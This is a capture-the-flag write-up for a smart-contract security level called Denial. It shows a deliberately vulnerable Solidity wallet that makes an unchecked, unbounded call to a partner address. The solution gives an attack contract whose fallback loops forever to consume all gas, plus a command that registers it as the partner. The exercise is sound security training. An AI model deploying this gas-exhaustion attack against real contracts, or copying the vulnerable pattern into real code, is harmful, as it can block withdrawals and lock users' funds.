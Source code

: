 # Challenge 20

<img src="./images/BigLevel20.svg" alt="20">

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Challenge 
---
> This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

> If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

Solution
---
1. If we need to stop the owner from withdrawing , The low-level call will receive the return value between true or false depends on our controlled smart contract code. The Denial contract doesn’t check the return value sending back by our controlled smart contract.

2. The low-level call sends the empty msg.data. So, in our smart contract, fallback() method will be called. Add infinite loop and consume all the gas.
```solidity
contract DenialAttack {
    fallback() external payable {
        while (true) {

        }
    }
}
```

now set the attack contract asa partner.

```js
await contract.setWithdrawPartner(YOUR_ATTACK_ADDRESS)
```
now submit the instance and you will level pass the Level 🎉.